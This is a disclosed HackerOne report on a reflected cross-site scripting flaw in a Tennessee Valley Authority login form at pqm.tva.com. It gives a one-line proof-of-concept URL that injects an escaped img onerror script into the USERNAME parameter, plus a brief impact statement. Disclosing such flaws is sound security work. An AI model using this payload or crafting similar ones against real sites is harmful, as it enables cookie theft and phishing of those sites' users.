 # xss reflected - pqm.tva.com

## Report Details
- **Report ID**: 1363001
- **URL**: https://hackerone.com/reports/1363001
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-10-07T17:21:05.511Z
- **Disclosed**: 2023-10-13T12:31:49.078Z

## Reporter
- **Username**: thiagomarques
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: tennessee-valley-authority

## Vulnerability Information
POC:

https://pqm.tva.com/siteminderagent/forms/smpwservices.fcc?USERNAME=\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e&SMAUTHREASON=7

## Impact

With the help of xss a hacker or attacker can perform social engineering on users by redirecting them from real website to fake one. hacker can steal their cookies and download a malware on their system, and there are many more attacking scenarios a skilled attacker can perform with xss.

## Attachments
- xss.png
